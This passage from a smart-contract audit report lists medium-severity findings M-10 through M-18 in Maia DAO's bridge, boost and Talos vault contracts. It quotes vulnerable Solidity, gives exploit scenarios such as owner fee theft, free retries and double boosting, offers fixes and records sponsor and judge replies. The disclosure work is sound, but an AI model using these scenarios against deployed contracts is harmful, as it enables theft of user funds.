`BranchBridgeAgent.retryDeposit` is used to top up a previous deposit and perform a call afterward. The modifier `requiresFallbackGas` is added to the method to verify that enough gas is deposited to pay for an eventual `fallback` call. The same is done when creating a new deposit.

- `retryDeposit`

```

    	function retryDeposit(
    		bool _isSigned,
    		uint32 _depositNonce,
    		bytes calldata _params,
    		uint128 _remoteExecutionGas,
    		uint24 _toChain
    	) external payable lock requiresFallbackGas {
    		//Check if deposit belongs to message sender
    		if (getDeposit[_depositNonce].owner != msg.sender) revert NotDepositOwner();

    	.
    	.
    	.
    	.

```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L319-L328>

- An example of a new deposit/call:

```solidity
// One example
    function callOutSignedAndBridge(bytes calldata _params, DepositInput memory _dParams, uint128 _remoteExecutionGas)
        external
        payable
        lock
        requiresFallbackGas
    {

// Another one
    function callOutSignedAndBridgeMultiple(
        bytes calldata _params,
        DepositMultipleInput memory _dParams,
        uint128 _remoteExecutionGas
    ) external payable lock requiresFallbackGas {

```

Let's have a look at the modifier `requiresFallbackGas`:
```

        /// @notice Modifier that verifies enough gas is deposited to pay for an eventual fallback call.
        modifier requiresFallbackGas() {
            _requiresFallbackGas();
            _;
        }

        /// @notice Verifies enough gas is deposited to pay for an eventual fallback call. Reuse to reduce contract bytesize.
        function _requiresFallbackGas() internal view virtual {
            if (msg.value <= MIN_FALLBACK_RESERVE * tx.gasprice) revert InsufficientGas();
        }

```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1404-L1412>

It checks if the `msg.value` (deposited gas) is sufficient. This is used for both a new deposit and topping up an existing deposit. For a new deposit, it makes sense. However, for topping up an existing deposit, it doesn't consider the old deposited amount which enforces the user to overpay for the gas when `retryDeposit` is called Please have a look at the PoC to get a clearer picture.

### Proof of Concept

Imagine the following scenario:

- Bob makes a request by `BaseBranchRouter.callOutAndBridge` with `msg.value` 0.1 ETH (deposited gas is 0.1 ETH), assuming the cost of `MIN_FALLBACK_RESERVE` is 0.1 ETH.
- This calls `BranchBridgeAgent.performCallOutAndBridge`.
- `BranchBridgeAgent` creates deposit and sends the Cross-Chain request by calling `AnycallProxy.anyCall`.
- Now, the ``AnyCall` Executor` calls `RootBridgeAgent.anyExecute`.

Let's say `RootBridgeAgent.anyExecute` couldn't complete due to insufficient available gas:

```solidity
	//Get Available Gas
	uint256 availableGas = _depositedGas - _gasToBridgeOut;

	//Get Root Environment Execution Cost
	uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasleft());

	//Check if sufficient balance
	if (minExecCost > availableGas) {
		_forceRevert();
		return;
	}
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L810-L817>

Notice that this `_forceReverts` and doesn't revert directly. This is to avoid triggering the `fallback` in `BranchBridgeAgent` (below is an explanation of `_forceRevert`):

- Let's assume that the additional required deposit was 0.05 ETH.
- So now Bob should top up the deposit with 0.05 ETH.
- Bob calls `BranchBridgeAgent.retryDeposit` and since there is a `requiresFallbackGas` modifier, they have to pass at least 0.1 ETH cost of `MIN_FALLBACK_RESERVE`. Thus, overpaying when it is not necessary.

This happens due to the lack of considering the already existing deposited gas amount.

*Note: for simplicity, we assumed that `tx.gasPrice` didn't change.*

### About `_forceRevert`

`_forceRevert` withdraws all of the execution budget:

    	// Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
    	if (executionBudget > 0) try anycallConfig.withdraw(executionBudget) {} catch {}

So `Anycall Executor` will revert if there is not enough budget. This is done at:

```solidity
	uint256 budget = executionBudget[_from];
	require(budget > totalCost, "no enough budget");
	executionBudget[_from] = budget - totalCost;
```

<https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L206C42-L206C58>

This way, we avoid reverting directly. Instead, we let the `Anycall Executor` to revert, to avoid triggering the `fallback`.

### Recommended Mitigation Steps

For `retryDeposit`, use the internal function `_requiresFallbackGas(uint256 _depositedGas)` instead of the modifier. Pass the existing deposited `gas + msg.value` to the function.

Example:

```solidity
_requiresFallbackGas(getDeposit[_depositNonce].depositedGas+msg.value)
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1415-L1417>

**[0xBugsy (Maia) disputed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/710#issuecomment-1632858333):**
 > It is intended. There are no gas refunds on failures, as it would be hard/expensive to gauge how much gas was spent on the remote execution before failure.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/710#issuecomment-1647942751):**
 > Similar to [#718](https://github.com/code-423n4/2023-05-maia-findings/issues/718).
 >
> @0xBugsy - Did you document anywhere that this is intended?

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/710#issuecomment-1651955210):**
 > Upon further thought, if a given deposit has not been set to `redeemable` via `fallback`, the user could be allowed to `retryDeposit` without paying for the `fallback` gas, since it has not yet been spent.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/710#issuecomment-1708807323):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[M-11] Depositing gas through `depositGasAnycallConfig` should not withdraw the `nativeToken`](https://github.com/code-423n4/2023-05-maia-findings/issues/679)
*Submitted by [kutugu](https://github.com/code-423n4/2023-05-maia-findings/issues/679), also found by [kodyvim](https://github.com/code-423n4/2023-05-maia-findings/issues/305) and [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/298)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L1219-L1222> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L848-L852>

### Impact

`DepositGasAnycallConfig` can deposit the gas fee externally, but it should not withdraw the `nativeToken`. This prevents gas from being deposited.

### Proof of Concept

There are two ways to store gas in `RootBridgeAgent`:

```solidity
// deposit GAS
function _manageGasOut(uint24 _toChain) internal returns (uint128) {
    uint256 amountOut;
    address gasToken;
    uint256 _initialGas = initialGas;

    if (_toChain == localChainId) {
        //Transfer gasToBridgeOut Local Branch Bridge Agent if remote initiated call.
        if (_initialGas > 0) {
            address(wrappedNativeToken).safeTransfer(getBranchBridgeAgent[localChainId], userFeeInfo.gasToBridgeOut);
        }

        return uint128(userFeeInfo.gasToBridgeOut);
    }

    if (_initialGas > 0) {
        if (userFeeInfo.gasToBridgeOut <= MIN_FALLBACK_RESERVE * tx.gasprice) revert InsufficientGasForFees();
        (amountOut, gasToken) = _gasSwapOut(userFeeInfo.gasToBridgeOut, _toChain);
    } else {
        if (msg.value <= MIN_FALLBACK_RESERVE * tx.gasprice) revert InsufficientGasForFees();
        wrappedNativeToken.deposit{value: msg.value}();
        (amountOut, gasToken) = _gasSwapOut(msg.value, _toChain);
    }

    IPort(localPortAddress).burn(address(this), gasToken, amountOut, _toChain);
    return amountOut.toUint128();
}


// pay GAS
if (local`AnyCall`ExecutorAddress == msg.sender) {
    //Save initial gas
    initialGas = _initialGas;
}
//Zero out gas after use if remote call
if (initialGas > 0) {
    _payExecutionGas(userFeeInfo.depositedGas, userFeeInfo.gasToBridgeOut, _initialGas, fromChainId);
}
```

When `local`AnyCall`ExecutorAddress` invokes `anyExecute`, the gas fee is stored in `nativeToken` first, then later withdrawn from `nativeToken` and stored into `multichain`. That's right.

```solidity
    function depositGasAnycallConfig() external payable {
        //Deposit Gas
        _replenishGas(msg.value);
    }

    function _replenishGas(uint256 _executionGasSpent) internal {
        //Unwrap Gas
        wrappedNativeToken.withdraw(_executionGasSpent);
        IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config()).deposit{value: _executionGasSpent}(address(this));
    }
```

But when the deposited gas is directly from the outside, there is no need to interact with `wrappedNativeToken`, and the withdraw prevents the deposit.

### Recommended Mitigation Steps

Also, add deposit logic to `depositGasAnycallConfig`, or remove the withdrawal logic.

### Assessed type

Context

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/679#issuecomment-1655670710):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[M-12] When the `anyExecute` call is made to `RootBridgeAgent` with a `depositNonce` that has been recorded in `executionHistory`, `initialGas` and `userFeeInfo` will not be updated, which would affect the next caller of `retrySettlement`.](https://github.com/code-423n4/2023-05-maia-findings/issues/676)
*Submitted by [Emmanuel](https://github.com/code-423n4/2023-05-maia-findings/issues/676)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L873-L890> <br><https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L922> <br><https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L246> <br><https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L571>

### Impact

The wrong `userFeeInfo` will be used when `retrySettlement` is called directly.

### Proof of Concept

Here is `retrySettlement` function:

```solidity
function retrySettlement(
    uint32 _settlementNonce,
    uint128 _remoteExecutionGas
) external payable {
    //Update User Gas available.
    if (initialGas == 0) {
        userFeeInfo.depositedGas = uint128(msg.value);
        userFeeInfo.gasToBridgeOut = _remoteExecutionGas;
    }
    //Clear Settlement with updated gas.
    _retrySettlement(_settlementNonce);
}
```

The assumption here, is that if `initialGas` is not 0, then `retrySettlement` is being called by `RootBridgeAgent#anyExecute`, which has already set values for `initialGas` and `userFeeInfo` (which would later be deleted at the end of the `anycall` function). But if it is 0, then `retrySettlement` is being called directly by a user, so the user should specify `_remoteExecutionGas` and send some `msg.value` with the call, which would make up the `userFeeInfo`.

But this assumption is not completely correct because whenever `RootBridgeAgent#anyExecute` is called with a `depositNonce` that has been recorded in `executionHistory`, the function returns early, which prevents other parts of the `anyExecute` function from being executed.

At the beginning of `anyExecute`, `initialGas` and `userFeeInfo` values are set and at the end of `anyExecute` call, if `initialGas>0`, `_payExecutionGas` sets `initialGas` and `userFeeInfo` to 0. So when the function returns earlier, before `_payExecutionGas` is called, `initialGas` and `userFeeInfo` are not updated.

If a user calls `retrySettlement` immediately after that, the call will use the wrong `userFeeInfo` (i.e. `userFeeInfo` set when `anyExecute` was called with a `depositNonce` that has already been recorded), because `initialGas!=0`. Whereas, it was meant to use values sent by the caller of `retrySettlement`.

Looking at a part of `_manageGasOut` logic which is called in `_retrySettlement`:

```solidity

if (_initialGas > 0) {
    if (
        userFeeInfo.gasToBridgeOut <= MIN_FALLBACK_RESERVE * tx.gasprice
    ) revert InsufficientGasForFees();
    (amountOut, gasToken) = _gasSwapOut(
        userFeeInfo.gasToBridgeOut,
        _toChain
    );
} else {
    if (msg.value <= MIN_FALLBACK_RESERVE * tx.gasprice)
        revert InsufficientGasForFees();
    wrappedNativeToken.deposit{value: msg.value}();
    (amountOut, gasToken) = _gasSwapOut(msg.value, _toChain);
}
```

This could cause one of these:

- User's `retrySettlement` call would revert if `userFeeInfo.gasToBridgeOut` (which the user does not have control over) is less than `MIN_FALLBACK_RESERVE * tx.gasprice`.
- User's call passes without them sending any funds, so they make a free `retrySettlement` transaction.

### Recommended Mitigation Steps

Consider implementing one of these:

- Restrict `retrySettlement` to only be called by `AgentExecutor`.
- Delete `initialGas` and `userFeeInfo` before a return is called if the `nonce` has been executed before:

```solidity
//Check if tx has already been executed
if (executionHistory[fromChainId][nonce]) {
    _forceRevert();
    delete initialGas;
    delete userFeeInfo;
    //Return true to avoid triggering anyFallback in case of `_forceRevert()` failure
    return (true, "already executed tx");
}
```

### Assessed type

Error

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/676#issuecomment-1632840188):**
 > This would be the best route to amend this in our opinion:
 >> Delete `initialGas` and `userFeeInfo` before a return is called if the `nonce` has been executed before.

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/676#issuecomment-1655938535):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[M-13] In `ERC20Boost.sol`, a user can be `attached` to a gauge and have no boost balance.](https://github.com/code-423n4/2023-05-maia-findings/issues/656)
*Submitted by [AlexCzm](https://github.com/code-423n4/2023-05-maia-findings/issues/656)*

When a user with a boosted gauge becomes deprecated, the user can transfer their boost tokens. When the same gauge is reintroduced to the active gauge list, the user will boost it again, even if their boost token balance is zero.

### Impact

The same amount of boost tokens can be allocated to gauges by multiple addresses.

### Proof of Concept

Let's take an example:

1. Alice calls `attach()` from `gaugeA` to boost it; `getUserBoost[alice]` is set to `balanceOf(alice)`.
2. The owner removes `gaugeA` and it's added to `_deprecatedGauges`.
3. Alice calls `updateUserBoost()`; because `gaugeA` is now deprecated, their allocated boost is set to `userBoost` which is initialized to zero (0):

```solidity
    function updateUserBoost(address user) external {
        uint256 userBoost = 0;
        address[] memory gaugeList = _userGauges[user].values();
        uint256 length = gaugeList.length;
        for (uint256 i = 0; i < length;) {
            address gauge = gaugeList[i];
            if (!_deprecatedGauges.contains(gauge)) {
                uint256 gaugeBoost = getUserGaugeBoost[user][gauge].userGaugeBoost;
                if (userBoost < gaugeBoost) userBoost = gaugeBoost;
            }
            unchecked {
                i++;
            }
        }
        getUserBoost[user] = userBoost;
        emit UpdateUserBoost(user, userBoost);
    } 
```

4. `freeGaugeBoost()` returns the amount of unallocated boost tokens:

```solidity

function freeGaugeBoost(address user) public view returns (uint256) {
	return balanceOf[user] - getUserBoost[user];
}

```

5. `transfer()` has the `notAttached()` modifier that ensures the transferred amount is free (not allocated to any gauge):

```solidity
    /**
     * @notice Transfers `amount` of tokens from `msg.sender` to `to` address.
     * @dev User must have enough free boost.
     * @param to the address to transfer to.
     * @param amount the amount to transfer.
     */
    function transfer(address to, uint256 amount) public override notAttached(msg.sender, amount) returns (bool) {
        return super.transfer(to, amount);
    }
```

6. Alice transfers their tokens.
7. When `gaugeA` is added back, `addGauge(gaugeA)`, Alice will continue to boost `gaugeA` even if their balance is 0.

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-20/ERC20Boost.sol#L150-L172>

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-20/ERC20Boost.sol#L81C1-L83C6>

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-20/ERC20Boost.sol#L336-L344>

### Tools Used

VS Code

### Recommended Mitigation Steps

One solution is `updateUserBoost()` to loop all gauges (active and deprecated), not only the active ones:

```solidity
    function updateUserBoost(address user) external {
        uint256 userBoost = 0;
        address[] memory gaugeList = _userGauges[user].values();


        uint256 length = gaugeList.length;
        for (uint256 i = 0; i < length;) {
            address gauge = gaugeList[i];
            uint256 gaugeBoost = getUserGaugeBoost[user][gauge].userGaugeBoost;
            if (userBoost < gaugeBoost) userBoost = gaugeBoost;
            unchecked {
                i++;
            }
        }
        getUserBoost[user] = userBoost;
        emit UpdateUserBoost(user, userBoost);
    }
```

Even the `updateUserBoost()` comments indicate all `_userGauges` should be iterated over.

```solidity
/**
* @notice Update geUserBoost for a user, loop through all _userGauges
* @param user the user to update the boost for.
*/
function  updateUserBoost(address user) external;
```

### Assessed type

Other

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/656#issuecomment-1632929622)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/656#issuecomment-1708812372):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/656).

***

## [[M-14] `BoostAggregator` owner can set fees to 100% and steal all of the user's rewards](https://github.com/code-423n4/2023-05-maia-findings/issues/634)
*Submitted by [Voyvoda](https://github.com/code-423n4/2023-05-maia-findings/issues/634)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/boost-aggregator/BoostAggregator.sol#L119> <br><https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/boost-aggregator/BoostAggregator.sol#L153>

### Impact

Users who use `BoostAggregator` will suffer a 100% loss of their rewards.

### Proof of Concept

After users have staked their tokens, the owner of the `BoostAggregator` can set `protocolFee` to `10_000` (100%) and steal the user's rewards. Anyone can create their own `BoostAggregator` and it is supposed to be publicly used; therefore, the owner of it cannot be considered trusted. Allowing the owner to steal the user's rewards is an unnecessary vulnerability.

```solidity
    function setProtocolFee(uint256 _protocolFee) external onlyOwner { 
        if (_protocolFee > DIVISIONER) revert FeeTooHigh();
        protocolFee = _protocolFee; // @audit - owner can set it to 100% and steal all rewards
    }
```

### Recommended Mitigation Steps

Create a mapping which tracks the `protocolFee` at which the user has deposited their NFT. Upon withdrawing, get the `protocolFee` from the said mapping.

**[Trust (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/634#issuecomment-1649475291):**
 > A fair level of trust is assumed on receiving `boostAggregator`, but the loss of yield is serious. Therefore, medium is appropriate.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/634#issuecomment-1653252394):**
 > A different severity from [#731](https://github.com/code-423n4/2023-05-maia-findings/issues/731), as this requires a malicious aggregator owner, while #731 can happen during normal interaction.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/634#issuecomment-1708826139):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/634).

***

## [[M-15] `BranchBridgeAgent._normalizeDecimalsMultiple` will always revert because of the lack of allocating memory](https://github.com/code-423n4/2023-05-maia-findings/issues/598)
*Submitted by [jasonxiale](https://github.com/code-423n4/2023-05-maia-findings/issues/598)*

### Proof of Concept

[BranchBridgeAgent.\_normalizeDecimalsMultiple](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L1349-L1357)'s code is below. Because `deposits` are never allocated memory, the function will always revert.

```solidity
    function _normalizeDecimalsMultiple(uint256[] memory _deposits, address[] memory _tokens)
        internal
        view
        returns (uint256[] memory deposits)
    {
        for (uint256 i = 0; i < _deposits.length; i++) {
            deposits[i] = _normalizeDecimals(_deposits[i], ERC20(_tokens[i]).decimals());
        }
    }
```

### Tools Used

VS

### Recommended Mitigation Steps

```solidity
@@ -1351,7 +1351,9 @@
         view
         returns (uint256[] memory deposits)
     {
-        for (uint256 i = 0; i < _deposits.length; i++) {
+        uint len = _deposits.length;
+        deposits = new uint256[](len);
+        for (uint256 i = 0; i < len; i++) {
             deposits[i] = _normalizeDecimals(_deposits[i], ERC20(_tokens[i]).decimals());
         }
     }

```

### Assessed type

Error

**[Trust (judge) decreased severity to Medium](https://github.com/code-423n4/2023-05-maia-findings/issues/598#issuecomment-1630399431)**

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/598#issuecomment-1632760641)**

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/598#issuecomment-1655677280):**
 > We recognize the audit's findings on Decimal Conversion for Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

## [[M-16] `vMaia` is ERC-4626 compliant, but the `maxWithdraw` & `maxRedeem` functions are not fully up to EIP-4626's specification](https://github.com/code-423n4/2023-05-maia-findings/issues/585)
*Submitted by [BPZ](https://github.com/code-423n4/2023-05-maia-findings/issues/585), also found by [Noro](https://github.com/code-423n4/2023-05-maia-findings/issues/532)*

The `maxWithdraw` & `maxRedeem` functions should return the `0` when the withdrawal is paused. But here, it's returning `balanceOf[user]`.

### Proof of Concept

`vMaia Withdrawal` is only allowed once per month during the 1st Tuesday (UTC+0) of the month.

It's checked by the below function:

```

     102       function beforeWithdraw(uint256, uint256) internal override {
                /// @dev Check if unstake period has not ended yet, continue if it is the case.
                if (unstakePeriodEnd >= block.timestamp) return;
        
                uint256 _currentMonth = DateTimeLib.getMonth(block.timestamp);
                if (_currentMonth == currentMonth) revert UnstakePeriodNotLive();
        
                (bool isTuesday, uint256 _unstakePeriodStart) = DateTimeLib.isTuesday(block.timestamp);
                if (!isTuesday) revert UnstakePeriodNotLive();
        
                currentMonth = _currentMonth;
                unstakePeriodEnd = _unstakePeriodStart + 1 days;
    114        }
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/vMaia.sol#L102C1-L114C6>

```

    173            function maxWithdraw(address user) public view virtual override returns (uint256) {
                      return balanceOf[user];
                  }
              
                  /// @notice Returns the maximum amount of assets that can be redeemed by a user.
                  /// @dev Assumes that the user has already forfeited all utility tokens.
                  function maxRedeem(address user) public view virtual override returns (uint256) {
                      return balanceOf[user];
    181              }
```
<https://github.com/code-423n4/2023-05-maia/blob/main/src/maia/tokens/ERC4626PartnerManager.sol#L173C3-L181C6>

Other than that period (during the 1st Tuesday (UTC+0) of the month ), the `maxWithdraw` & `maxRedeem` functions should return the `0`.

According to [EIP-4626 specifications](<https://eips.ethereum.org/EIPS/eip-4626>):

`maxWithdraw`

     MUST factor in both global and user-specific limits, like if withdrawals are entirely disabled (even temporarily) it MUST
     return 0.

`maxRedeem`

     MUST factor in both global and user-specific limits, like if redemption is entirely disabled (even temporarily) it MUST
     return 0.

### Recommended Mitigation Steps

Use an if-else block and if the time period is within the 1st Tuesday (UTC+0) of the month, return `balanceOf[user]` and `else` return `0`.

For more information, reference [here](<https://blog.openzeppelin.com/pods-finance-ethereum-volatility-vault-audit-2#non-standard-erc-4626-vault-functionality>).

### Assessed type

ERC4626

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/585#issuecomment-1655656724)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/585#issuecomment-1709162142):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/585).

***

## [[M-17] Protocol fees can become trapped indefinitely inside the Talos vault contracts](https://github.com/code-423n4/2023-05-maia-findings/issues/583)
*Submitted by [Madalad](https://github.com/code-423n4/2023-05-maia-findings/issues/583), also found by MohammedRizwan ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/919), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/918)), [jasonxiale](https://github.com/code-423n4/2023-05-maia-findings/issues/753), IllIllI ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/518), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/516)), and [ihtishamsudo](https://github.com/code-423n4/2023-05-maia-findings/issues/218)*

Talos strategy contracts all inherit logic from `TalosBaseStrategy`, including the function `collectProtocolFees`. This function is used by the owner to receive fees earned by the contract.

Talos vault contracts should be expected to work properly for any token that has a sufficiently liquid Uniswap pool. However, certain ERC20 tokens [do not revert on failed transfers](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#SafeERC20), and instead return `false`. In `TalosBaseStrategy#collectProtocolFees`, tokens are transferred from the contract to the owner using `transfer`, and the return value is not checked. This means, that the transfer could fail silently; in which case `protocolFees0` and `protocolFees1` would be updated without the tokens leaving the contract. This function is inherited by any Talos vault contract.

This accounting discrepancy causes the tokens to be irretrievably trapped in the contract.

### Proof of Concept

```solidity
    function collectProtocolFees(uint256 amount0, uint256 amount1) external nonReentrant onlyOwner {
        uint256 _protocolFees0 = protocolFees0;
        uint256 _protocolFees1 = protocolFees1;

        if (amount0 > _protocolFees0) {
            revert Token0AmountIsBiggerThanProtocolFees();
        }
        if (amount1 > _protocolFees1) {
            revert Token1AmountIsBiggerThanProtocolFees();
        }
        ERC20 _token0 = token0;
        ERC20 _token1 = token1;
        uint256 balance0 = _token0.balanceOf(address(this));
        uint256 balance1 = _token1.balanceOf(address(this));
        require(balance0 >= amount0 && balance1 >= amount1);
        if (amount0 > 0) _token0.transfer(msg.sender, amount0); // @audit should use `safeTransfer`
        if (amount1 > 0) _token1.transfer(msg.sender, amount1); // @audit should use `safeTransfer`

        protocolFees0 = _protocolFees0 - amount0;
        protocolFees1 = _protocolFees1 - amount1;
        emit RewardPaid(msg.sender, amount0, amount1);
    }
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L394-L415>

### Recommended Mitigation Steps

Use [OpenZeppelin's SafeERC20](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol) library for ERC20 transfers.

### Assessed type

ERC20

**[deadrxsezzz (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/583#issuecomment-1652526255):**
 > Since we are talking about ERC20 transfer, the only reason for an ERC20 transfer to fail would be insufficient balance. However, there is a require statement that checks if the balance is enough. This check makes a silent fail impossible to happen.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/583#issuecomment-1653263459):**
 > I disagree. ERC20s are free to implement their own logic and the transfer can fail for other reasons, e.g. blacklisted address. Therefore, using `safeTransfer` is a requirement.

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/583#issuecomment-1655668642)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/583#issuecomment-1709162752):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/577-57-504-658-583-730).

***

## [[M-18] A lack of slippage protection can lead to a significant loss of user funds](https://github.com/code-423n4/2023-05-maia-findings/issues/577)
*Submitted by [Madalad](https://github.com/code-423n4/2023-05-maia-findings/issues/577), also found by [MohammedRizwan](https://github.com/code-423n4/2023-05-maia-findings/issues/912), [Qeew](https://github.com/code-423n4/2023-05-maia-findings/issues/907), [brgltd](https://github.com/code-423n4/2023-05-maia-findings/issues/894), [Kaiziron](https://github.com/code-423n4/2023-05-maia-findings/issues/855), [Breeje](https://github.com/code-423n4/2023-05-maia-findings/issues/828), [tsvetanovv](https://github.com/code-423n4/2023-05-maia-findings/issues/788), [RED-LOTUS-REACH](https://github.com/code-423n4/2023-05-maia-findings/issues/765), [peanuts](https://github.com/code-423n4/2023-05-maia-findings/issues/624), [0xSmartContract](https://github.com/code-423n4/2023-05-maia-findings/issues/580), [BPZ](https://github.com/code-423n4/2023-05-maia-findings/issues/503), [0xCiphky](https://github.com/code-423n4/2023-05-maia-findings/issues/472), [giovannidisiena](https://github.com/code-423n4/2023-05-maia-findings/issues/460), [lsaudit](https://github.com/code-423n4/2023-05-maia-findings/issues/405), [BugBusters](https://github.com/code-423n4/2023-05-maia-findings/issues/177), [chaduke](https://github.com/code-423n4/2023-05-maia-findings/issues/53), [Oxsadeeq](https://github.com/code-423n4/2023-05-maia-findings/issues/329), [8olidity](https://github.com/code-423n4/2023-05-maia-findings/issues/248), and [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/71)*

Talos strategy contracts interact with Uniswap V3 in multiple areas of the code. However, none of these interactions contain any [slippage control](https://dacian.me/defi-slippage-attacks#heading-no-slippage-parameter). This means, the contract, and by extension, all users who hold shares, can lose a significant value due to liquid pools or MEV sandwich attacks every time any of the relevant functions are called.

### Impact

[`TalosBaseStrategy#deposit`](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L201-L210) is the entry point for any Talos vault and it transfers tokens from the caller to the vault to be deposited into Uniswap V3. Since it lacks a slippage control, every user who interacts with any Talos vault will risk having their funds stolen by MEV bots. [`PoolActions#rerange`](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/libraries/PoolActions.sol#L73-L87) is also vulnerable (which is called whenever the strategy manager wishes to rebalance pool allocation of the vault), which may lead to vault funds being at risk to the detriment of shareholders. The "vault initialize" function [`TalosBaseStrategy#init`](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L135-L149) is vulnerable as well; however, only the vault owners funds would be at risk here.

### Proof of Concept

In each of the below instances, a call to Uniswap V3 is made. Calls `amount0Min` and `amount1Min` are each set to `0`, which allows for a **100% slippage tolerance**. This means, that the action could lead to the caller losing up to 100% of their tokens due to slippage.

[`TalosBaseStrategy#deposit`](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L201-L210):

```solidity
        (liquidityDifference, amount0, amount1) = nonfungiblePositionManager.increaseLiquidity(
            INonfungiblePositionManager.IncreaseLiquidityParams({
                tokenId: _tokenId,
                amount0Desired: amount0Desired,
                amount1Desired: amount1Desired,
                amount0Min: 0, // @audit should be non-zero
                amount1Min: 0, // @audit should be non-zero
                deadline: block.timestamp
            })
        );
```

[`PoolActions#rerange`](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/libraries/PoolActions.sol#L73-L87):

```solidity
        (tokenId, liquidity, amount0, amount1) = nonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: address(actionParams.token0),
                token1: address(actionParams.token1),
                fee: poolFee,
                tickLower: tickLower,
                tickUpper: tickUpper,
                amount0Desired: balance0,
                amount1Desired: balance1,
                amount0Min: 0, // @audit should be non-zero
                amount1Min: 0, // @audit should be non-zero
                recipient: address(this),
                deadline: block.timestamp
            })
```

[`TalosBaseStrategy#init`](https://github.com/code-423n4/2023-05-maia/blob/main/src/talos/base/TalosBaseStrategy.sol#L135-L149):

```solidity
        (_tokenId, _liquidity, amount0, amount1) = _nonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: address(_token0),
                token1: address(_token1),
                fee: poolFee,
                tickLower: tickLower,
                tickUpper: tickUpper,
                amount0Desired: amount0Desired,
